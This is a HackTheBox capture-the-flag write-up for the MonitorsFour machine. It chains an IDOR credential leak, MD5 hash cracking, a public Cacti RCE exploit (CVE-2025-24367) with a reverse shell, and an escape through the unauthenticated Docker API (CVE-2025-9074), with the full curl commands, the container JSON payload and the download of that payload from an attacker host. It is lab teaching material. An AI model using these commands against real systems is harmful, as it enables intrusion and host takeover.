# MonitorsFour - HackTheBox Writeup



---

## Machine Information

| Attribute | Details |
|-----------|---------|
| **Machine Name** | MonitorsFour |
| **Platform** | HackTheBox |
| **Difficulty** | Easy |
| **Operating System** | Windows (with Docker Desktop) |
| **Author** | Saurabh Tomar |
| **Date Completed** | February 2026 |
| **Machine IP** | 10.129.12.34 |

**Achievement Verification:** [View on HTB](https://labs.hackthebox.com/achievement/machine/847519/814)

---

## Table of Contents

1. [Overview](#overview)
2. [Reconnaissance](#reconnaissance)
3. [Enumeration](#enumeration)
4. [Initial Access](#initial-access)
5. [User Flag](#user-flag)
6. [Privilege Escalation](#privilege-escalation)
7. [Root Flag](#root-flag)
8. [Key Takeaways](#key-takeaways)

---

## Overview

MonitorsFour is an Easy-rated Windows machine from HackTheBox that presents an interesting challenge involving web application vulnerabilities, Docker containers, and privilege escalation. The machine hosts a corporate website with a hidden Cacti monitoring subdomain. 

**Attack Path Summary:**
- Discover hidden subdomain through enumeration
- Exploit IDOR vulnerability to leak user credentials
- Crack MD5 password hashes
- Exploit Cacti RCE vulnerability (CVE-2025-24367)
- Escape Docker container using Docker API vulnerability (CVE-2025-9074)

The unique aspect of this machine is that it runs Docker Desktop on Windows, which creates an interesting scenario where we initially land in a Linux container but need to escape to the Windows host for full compromise.

---

## Reconnaissance

### Initial Setup

First, let's add the target IP to our hosts file for easier access:

```bash
echo "10.129.12.34 monitorsfour.htb" | sudo tee -a /etc/hosts
```

### Port Scanning

I started with a comprehensive Nmap scan to identify open ports and running services:

```bash
nmap -p- -A monitorsfour.htb
```

Where:
- `-p-` scans all 65535 ports
- `-A` enables OS detection, version detection, script scanning, and traceroute



**Scan Results:**

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MonitorsFour - Networking Solutions
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Key Findings:**
- **Port 80 (HTTP):** Nginx web server running PHP application (PHPSESSID cookie detected)
- **Port 5985 (WinRM):** Windows Remote Management service - useful if we obtain valid Windows credentials
- **OS Detection:** Windows operating system

The attack surface is small but sufficient. The presence of PHP suggests we should look for common web vulnerabilities like SQL injection, Local File Inclusion (LFI), or Insecure Direct Object Reference (IDOR).

---

## Enumeration

### Web Application Analysis

Visiting `http://monitorsfour.htb` shows a corporate website for "MonitorsFour", a networking solutions provider:



The site appears to be a standard corporate landing page with static content. However, the presence of authentication functionality suggests there might be more interesting areas to explore.

### Subdomain Discovery

Since the main site didn't reveal obvious vulnerabilities, I performed subdomain enumeration using gobuster:

```bash
gobuster vhost -u http://monitorsfour.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```



**Result:** Found subdomain `cacti`

Excellent! Cacti is an open-source network monitoring and graphing tool. Historically, Cacti has had several critical vulnerabilities, including Remote Code Execution (RCE) flaws.

Let's add this subdomain to our hosts file:

```bash
echo "10.129.12.34 cacti.monitorsfour.htb" | sudo tee -a /etc/hosts
```



The Cacti login page requires authentication, so we need to find valid credentials before we can proceed.

### Directory and API Enumeration

I performed directory enumeration on the main website using dirsearch:

```bash
dirsearch -u http://monitorsfour.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



After finding some endpoints, I used **Arjun** tool to discover hidden parameters. Arjun is a powerful tool that can find query parameters for URL endpoints:

```bash
arjun -u http://monitorsfour.htb/user
```



**Discovered Endpoint:** `/user` - This endpoint accepts a `token` parameter

---

## Initial Access

### Exploiting IDOR Vulnerability

IDOR (Insecure Direct Object Reference) vulnerabilities occur when an application provides direct access to objects based on user-supplied input without proper authorization checks.

I tested the `/user` endpoint with different token values. Using `token=0` is a common technique because:
- Value `0` often bypasses filtering logic
- Developers sometimes fail to handle edge cases properly
- It might return all records instead of a specific one

```bash
curl -s "http://monitorsfour.htb/user?token=0"
```

**Jackpot!** The server returned a complete list of users with their MD5 password hashes:

```json
[
  {
    "id": 2,
    "username": "admin",
    "email": "admin@monitorsfour.htb",
    "password": "56b32eb43e6f15395f6c46c1c9e1cd36",
    "role": "super user",
    "token": "8024b78f83f102da4f",
    "name": "Marcus Higgins",
    "position": "System Administrator"
  },
  {
    "id": 5,
    "username": "mwatson",
    "email": "mwatson@monitorsfour.htb",
    "password": "69196959c16b26ef00b77d82cf6eb169",
    "role": "user",
    "name": "Michael Watson"
  },
  {
    "id": 6,
    "username": "janderson",
    "email": "janderson@monitorsfour.htb",
    "password": "2a22dcf99190c322d974c8df5ba3256b",
    "role": "user",
    "name": "Jennifer Anderson"
  },
  {
    "id": 7,
    "username": "dthompson",
    "email": "dthompson@monitorsfour.htb",
    "password": "8d4a7e7fd08555133e056d9aacb1e519",
    "role": "user",
    "name": "David Thompson"
  }
]
```



### Password Cracking

The hashes are 32 characters long, indicating MD5 hashing algorithm. MD5 is considered cryptographically broken and unsuitable for security purposes because:
- It's fast to compute (making brute-force attacks easier)
- Rainbow tables (precomputed hash databases) exist
- Collision attacks are feasible

I used **Hashcat** to crack the MD5 hashes. Hashcat is a powerful password recovery tool that supports various hash types:

```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

Where:
- `-m 0` specifies MD5 hash mode
- `-a 0` specifies dictionary attack mode
- `hashes.txt` contains the MD5 hashes
- `rockyou.txt` is the wordlist



**Cracked Password:**
- Hash: `56b32eb43e6f15395f6c46c1c9e1cd36`
- Password: `wonderful1`

### Finding the Correct Username

Initially, I tried `admin:wonderful1` on the Cacti login page, but it failed. Looking at the user data, the admin account belongs to "Marcus Higgins". I tried variations:
- `marcus:wonderful1` ✅ **Success!**
- `mhiggins:wonderful1`
- `higgins:wonderful1`

**Valid Credentials:** `marcus:wonderful1`

---

## Exploiting Cacti (CVE-2025-24367)

### Vulnerability Analysis

After logging into Cacti, I noticed the version at the top of the page: **1.2.28**

**CVE-2025-24367** is a critical Remote Code Execution vulnerability in Cacti versions ≤ 1.2.28. The vulnerability exists due to:
- Insufficient input sanitization in the Graph Template functionality
- Command injection when data is passed to the `rrdtool` utility
- Authenticated users can inject malicious commands

### Exploitation

I used a public exploit available on GitHub: [CVE-2025-24367-Cacti-PoC](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC)

**Step 1:** Clone the exploit repository

```bash
git clone https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC.git
cd CVE-2025-24367-Cacti-PoC
```

**Step 2:** Start a Netcat listener

```bash
nc -lvnp 9001
```

**Step 3:** Run the exploit

The exploit works by:
1. Authenticating to Cacti
2. Using the graphs/templates functionality to create a malicious PHP file
3. Uploading the PHP file to the web root
4. Triggering the payload to execute and deliver a reverse shell

```bash
sudo python3 exploit.py -url http://cacti.monitorsfour.htb -u marcus -p wonderful1 -i 10.10.14.36 -l 9001
```

**Note:** The script needs sudo because it starts an HTTP server on port 80 to deliver the payload.



**Exploit Output:**

```
+ [+] Cacti Instance Found!
+ [+] Serving HTTP on port 80
+ [+] Login Successful!
+ [+] Got graph ID: 226
# [i] Created PHP filename: rKQT0.php
+ [+] Got payload: /bash
# [i] Created PHP filename: 4bWsW.php
+ [+] Hit timeout, looks good for shell, check your listener!
+ [+] Stopped HTTP server on port 80
```



**Success!** We received a reverse shell connection:

```bash
Connection received on 10.129.12.34 57590
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
www-data@821fbd6a43fa:~/html/cacti$
```

### Important Observation

Notice the hostname: `821fbd6a43fa` - This is a shortened Docker container ID! 

We're not on the Windows host directly, but inside a Linux Docker container. This explains why Nmap showed Windows as the OS, but we got a Linux shell. The target is running **Docker Desktop on Windows**, which uses WSL2 (Windows Subsystem for Linux) as its backend.

---

## User Flag

### Initial Enumeration

Let's check our current context:

```bash
www-data@821fbd6a43fa:~/html/cacti$ whoami
www-data

www-data@821fbd6a43fa:~/html/cacti$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We're running as `www-data`, the standard web server user with minimal privileges.

### Finding the User Flag

```bash
www-data@821fbd6a43fa:~/html/cacti$ ls -la /home
total 12
drwxr-xr-x 3 root   root   4096 Oct 15 12:34 .
drwxr-xr-x 1 root   root   4096 Oct 15 12:34 ..
drwxr-xr-x 2 marcus marcus 4096 Oct 15 12:34 marcus

www-data@821fbd6a43fa:~/html/cacti$ ls -la /home/marcus
total 12
drwxr-xr-x 2 marcus marcus 4096 Oct 15 12:34 .
drwxr-xr-x 3 root   root   4096 Oct 15 12:34 ..
-rw-r--r-- 1 marcus marcus   33 Oct 15 12:34 user.txt

www-data@821fbd6a43fa:~/html/cacti$ cat /home/marcus/user.txt
23cde88d************************
```



**User Flag Captured!** 🎉

However, we're still inside a Docker container. To get the root flag, we need to escape to the Windows host.

---

## Privilege Escalation

### Understanding the Environment

We're in a Docker container with limited privileges. To reach the root flag on the Windows host, we need to perform a **container escape**. 

Common container escape techniques include:
- Accessing the Docker socket (`/var/run/docker.sock`)
- Exploiting Docker API if accessible
- Kernel exploits
- Misconfigured capabilities or mounts

### CVE-2025-9074: Docker Desktop API Vulnerability

**CVE-2025-9074** (CVSS 9.3 - Critical) is a Docker Desktop vulnerability where:
- Linux containers can connect to the Docker Engine API over Docker Desktop's internal subnet
- No authentication is required
- This works regardless of the "Expose daemon on tcp://localhost:2375 without TLS" setting
- The default endpoint is typically `192.168.65.7:2375`

### Network Reconnaissance

Let's examine our network environment:

```bash
www-data@821fbd6a43fa:~/html/cacti$ hostname
821fbd6a43fa

www-data@821fbd6a43fa:~/html/cacti$ ip addr
2: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP>
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0

www-data@821fbd6a43fa:~/html/cacti$ ip route
default via 172.18.0.1 dev eth0
172.18.0.0/16 dev eth0 proto kernel scope link src 172.18.0.2
```

Our container is on the `172.18.0.0/16` network with gateway `172.18.0.1`.

### Searching for Docker API

**Attempt 1:** Try the container gateway

```bash
www-data@821fbd6a43fa:~/html/cacti$ curl http://172.18.0.1:2375/version
curl: (7) Failed to connect to 172.18.0.1 port 2375: Could not connect to server
```

No luck - the gateway is just a virtual bridge interface.

**Attempt 2:** Try `host.docker.internal`

Docker Desktop creates a special DNS name `host.docker.internal` to access the host from containers:

```bash
www-data@821fbd6a43fa:~/html/cacti$ curl -v http://host.docker.internal:2375/version
* Host host.docker.internal:2375 was resolved.
* IPv6: fdc4:f303:9324::254
* IPv4: 192.168.65.254
*   Trying 192.168.65.254:2375...
* connect to 192.168.65.254 port 2375 failed: Connection refused
curl: (7) Failed to connect to host.docker.internal port 2375: Could not connect to server
```

Connection refused, but we got valuable information:
- `host.docker.internal` resolves to `192.168.65.254`
- This is Docker Desktop's internal subnet: `192.168.65.0/24`
- The API isn't on `.254`, but might be elsewhere in this subnet

**Attempt 3:** Check for Docker socket

```bash
www-data@821fbd6a43fa:~/html/cacti$ ls -la /var/run/docker.sock 2>/dev/null
www-data@821fbd6a43fa:~/html/cacti$ find / -name "docker.sock" 2>/dev/null
```

No Docker socket is mounted in the container.

### Scanning the Docker Desktop Subnet

Since `host.docker.internal` points to the `192.168.65.0/24` subnet, let's scan all IPs for the Docker API on port 2375:

```bash
www-data@821fbd6a43fa:~/html/cacti$ for i in $(seq 1 254); do (curl -s --connect-timeout 1 http://192.168.65.$i:2375/version 2>/dev/null | grep -q "ApiVersion" && echo "192.168.65.$i:2375 OPEN") & done; wait
192.168.65.7:2375 OPEN
```


**Found it!** The Docker API is accessible at `192.168.65.7:2375` without authentication.

### Verifying Docker API Access

```bash
www-data@821fbd6a43fa:~/html/cacti$ curl http://192.168.65.7:2375/version
{
  "Platform": {"Name": "Docker Engine - Community"},
  "Version": "28.3.2",
  "ApiVersion": "1.51",
  "KernelVersion": "6.6.87.2-microsoft-standard-WSL2",
  "Os": "linux",
  "Arch": "amd64"
}
```

Perfect! We have unauthenticated access to the Docker Engine API. This is **CVE-2025-9074** in action.

### Listing Available Images

```bash
www-data@821fbd6a43fa:~/html/cacti$ curl -s http://192.168.65.7:2375/images/json | grep -o '"RepoTags":\[[^]]*\]'
"RepoTags":["docker_setup-nginx-php:latest"]
"RepoTags":["docker_setup-mariadb:latest"]
"RepoTags":["alpine:latest"]
```

We have access to the `alpine:latest` image, which is perfect for our container escape.

### Container Escape Strategy

Our plan:
1. Create a new privileged container using the Alpine image
2. Mount the Windows host filesystem into the container
3. Access the root flag from the mounted filesystem

On Docker Desktop for Windows, the host filesystem is accessible via `/mnt/host/c` (for C: drive) through WSL2.

### Creating the Exploit Container

On our attacking machine, create a JSON payload:

```bash
cat > /tmp/container.json << 'EOF'
{
  "Image": "alpine:latest",
  "Cmd": ["/bin/sh", "-c", "cat /mnt/host_root/Users/Administrator/Desktop/root.txt"],
  "HostConfig": {
    "Binds": ["/mnt/host/c:/mnt/host_root"]
  },
  "Tty": true,
  "OpenStdin": true
}
EOF
```

**Explanation:**
- `Image`: Use the Alpine Linux image
- `Cmd`: Command to execute - read the root flag
- `Binds`: Mount the host's C: drive to `/mnt/host_root` in the container
- This gives us full access to the Windows filesystem

Start a simple HTTP server to transfer the payload:

```bash
cd /tmp && python3 -m http.server 8000
```

### Executing the Container Escape

Download the payload in the compromised container:

```bash
www-data@821fbd6a43fa:~/html/cacti$ curl http://10.10.14.36:8000/container.json -o /tmp/container.json
```

Create the container via Docker API:

```bash
www-data@821fbd6a43fa:~/html/cacti$ curl -X POST -H "Content-Type: application/json" -d @/tmp/container.json http://192.168.65.7:2375/containers/create?name=pwned
{"Id":"7d99df11ee0f9d29c093acb26f741bebda84e7d02c90097590c0791241075468","Warnings":[]}
```

Start the container:

```bash
www-data@821fbd6a43fa:~/html/cacti$ curl -X POST http://192.168.65.7:2375/containers/7d99df11ee0f/start
```

Retrieve the output (root flag):

```bash
www-data@821fbd6a43fa:~/html/cacti$ curl http://192.168.65.7:2375/containers/7d99df11ee0f/logs?stdout=true
bdb6416e************************
```



**Root Flag Captured!** 🎉🎉

---

## Key Takeaways

### What I Learned

This machine taught me several valuable lessons about penetration testing and security:

1. **IDOR Vulnerabilities Are Still Common**
   - Always test edge cases like `id=0`, `id=-1`, or `id=null`
   - Developers often forget to implement proper authorization checks
   - Even simple parameter manipulation can lead to complete compromise

2. **Subdomain Enumeration Is Critical**
   - Hidden subdomains often host admin panels or monitoring systems
   - These services may have weaker security than the main application
   - Always perform thorough subdomain discovery

3. **MD5 Is Broken - Don't Use It**
   - MD5 hashes can be cracked instantly using rainbow tables
   - Modern applications should use bcrypt, scrypt, or Argon2
   - Password hashing should always include salts

4. **Keep Software Updated**
   - Both CVEs exploited (CVE-2025-24367 and CVE-2025-9074) are recent
   - Cacti 1.2.28 had a critical RCE vulnerability
   - Regular patching is essential for security

5. **Container Security Matters**
   - Containers are not VMs - they share the host kernel
   - Exposed Docker APIs are extremely dangerous
   - Docker Desktop on Windows has unique security considerations
   - Always restrict access to Docker sockets and APIs

6. **Understanding the Environment Is Key**
   - Initially, I was confused why Nmap showed Windows but I got a Linux shell
   - Understanding Docker Desktop's architecture (WSL2 backend) was crucial
   - The `/mnt/host/c` path is specific to Docker Desktop on Windows

7. **Network Reconnaissance in Containers**
   - Check for Docker sockets (`/var/run/docker.sock`)
   - Scan internal Docker networks (`192.168.65.0/24` for Docker Desktop)
   - Look for `host.docker.internal` DNS resolution
   - Docker APIs on port 2375 (no TLS) or 2376 (TLS)

8. **Privilege Escalation Paths**
   - Container escapes often involve mounting the host filesystem
   - Privileged containers can access host resources
   - Docker API access = root on the host

### Skills Practiced

- Web application enumeration and fuzzing
- IDOR vulnerability exploitation
- Password hash cracking
- CVE research and exploit adaptation
- Docker container security
- Container escape techniques
- Docker API manipulation
- Windows and Linux hybrid environments
- Network reconnaissance in containerized environments

### Tools Used

- **Nmap** - Port scanning and service enumeration
- **Gobuster** - Virtual host/subdomain discovery
- **Dirsearch** - Directory and file enumeration
- **Arjun** - HTTP parameter discovery
- **Hashcat** - Password hash cracking
- **curl** - API testing and Docker API interaction
- **Netcat** - Reverse shell listener
- **Python** - HTTP server for payload delivery
- **Docker API** - Container creation and manipulation

---

## Conclusion

MonitorsFour was an excellent machine that combined web application vulnerabilities with modern container security issues. The progression from IDOR to RCE to container escape felt natural and realistic.

The most interesting aspect was dealing with Docker Desktop on Windows, which creates a unique environment where you're working with Linux containers on a Windows host. Understanding the network architecture and how Docker Desktop exposes the host filesystem through WSL2 was crucial for the privilege escalation.

This machine reinforces the importance of:
- Proper input validation and authorization
- Keeping software up to date
- Securing Docker deployments
- Understanding your environment's architecture

Thanks for reading! I hope this writeup helps you understand the attack path and learn something new.

**- Saurabh Tomar**

---


**Happy Hacking! 🚀**


